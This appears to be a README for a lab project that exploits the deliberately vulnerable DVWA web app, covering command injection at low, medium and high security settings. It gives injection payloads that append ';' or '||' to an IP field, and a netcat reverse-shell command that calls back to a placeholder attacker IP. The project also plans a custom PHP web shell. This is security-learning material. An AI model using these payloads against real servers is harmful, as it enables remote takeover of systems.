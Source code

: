 # Web Hack Project

## Overview

This project focuses on identifying and exploiting vulnerabilities in a web application (DVWA) and developing a custom PHP shell with functionalities similar to c99 and r57. The identified vulnerabilities will be exploited, documented, and mitigation techniques will be provided to secure the web platform.

The DVWA application has been set up to simulate various security levels (Low, Medium, and High) for testing. The first vulnerability explored is **Command Injection**, where the application allows direct execution of system commands on the server.

## Vulnerability 1: Command Injection

### Description

**Command Injection** occurs when user input is improperly sanitized, allowing arbitrary system commands to be executed on the server. In this case, the input provided for the IP address field is vulnerable to command injection across all security levels (Low, Medium, and High). By exploiting this vulnerability, an attacker can execute commands such as `ls`, `pwd`, and even more harmful ones, such as starting a reverse shell to gain remote access.

### Exploitation Steps

1. **Low Security Level:**
   - On the low security setting, the system is very permissive, allowing direct command execution by simply appending a semicolon (`;`) after the IP address input.
   - Example: Enter `127.0.0.1; ls` to list the server files.

2. **Medium Security Level:**
   - On the medium security setting, the semicolon (`;`) is filtered out. However, by using logical operators like `||` (logical OR), an attacker can still bypass the input validation.
   - Example: Enter `127.0.0.1 || ls` to execute the `ls` command.

3. **High Security Level:**
   - Even with the highest security setting, the logical operator trick (`||`) still works to bypass the protection, meaning command injection is still possible.
   - Example: Enter `127.0.0.1 || ls` to execute the `ls` command.

### Impact of Vulnerability

In a real-world scenario, this vulnerability can be exploited for much more than simple file navigation. An attacker could establish a reverse shell and gain full access to the server. For example, the attacker could start a netcat server (`nc`) on their machine and use the vulnerable web application to call back and establish a remote shell.

- Example:
  1. Start a listener on the attacker's machine: `nc -lvp 4444`.
  2. On the vulnerable app, instead of entering `ls`, the attacker inputs a command that opens a reverse shell: `127.0.0.1 || nc [attacker's IP] 4444 -e /bin/bash`.

